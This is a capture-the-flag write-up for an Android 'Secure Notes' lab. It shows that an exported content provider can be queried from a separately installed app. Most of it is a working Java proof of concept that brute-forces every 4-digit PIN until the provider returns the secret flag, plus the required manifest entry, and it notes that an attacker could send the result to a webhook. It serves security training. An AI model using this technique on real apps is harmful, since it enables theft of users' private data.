




# Secure Notes

The challenge provides a private notes app. There are several ways to solve the lab, but the intended approach is to simulate a real attack using a malicious app, so this is the path I will take.

Looking at the decompiled code, we can see one exported activity (`MainActivity`) and one exported provider (`SecretDataProvider`).



Running the application, we see that we need to enter the correct PIN to read the secret information.



This action is performed by sending a query to the content provider, as we can see in `MainActivity`'s code.



However, since the provider is exported, we can query it from another application!

### Exploiting the Exported Provider

To retrieve the flag, we need to find the correct PIN. Therefore, my strategy is to brute-force every 4-digit number from `0000` to `9999`.

I copied the exact code from `MainActivity` into my own Android Studio project and modified a few lines:

```java
private void bruteForcePin() {
    Uri uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider");
    Log.d("PinBruteForce", "Starting bruteforce...");

    for(int i=0; i<10000; i++){
        String resultText;
        String pin = String.format("%04d", i); // "0000" to "9999"
        String selection = "pin=" + pin;
        Cursor cursor = getContentResolver().query(uri, null, selection, null, null);

        if (cursor == null) {
            resultText = null;
        }
        else {
            Cursor cursor2 = cursor.moveToFirst() ? cursor : null;
            if (cursor2 != null) {
                Integer numValueOf = Integer.valueOf(cursor2.getColumnIndex("Secret"));
                int it = numValueOf.intValue();
                if (!(it != -1)) {
                    numValueOf = null;
                }
                if (numValueOf != null) {
                    int it2 = numValueOf.intValue();
                    resultText = cursor.getString(it2);
                    if(resultText.matches("^[\\x20-\\x7E]+$")){
                        Log.d("PinBruteForce", "PIN found: "+pin);
                        Log.d("PinBruteForce", resultText);
                        break;
                    }
                }
            }
        }
    }
}
```

Here, I added a `for` loop to test every single 4-digit PIN, along with a regex check (because testing without it returned some false positives). Once the application successfully decrypts the value, the provider query returns the secret flag.

Additionally, I had to add the following to `AndroidManifest.xml`:

```xml
<queries>
    <provider android:authorities="com.mobilehackinglab.securenotes.secretprovider" />
</queries>
```

After installing and executing our malicious app, it tries every query until it finds the correct PIN:



As shown above, we successfully retrieved the flag. While this PoC app only logs the flag, a real-world attacker could easily exfiltrate this information, for example, by sending it to a webhook.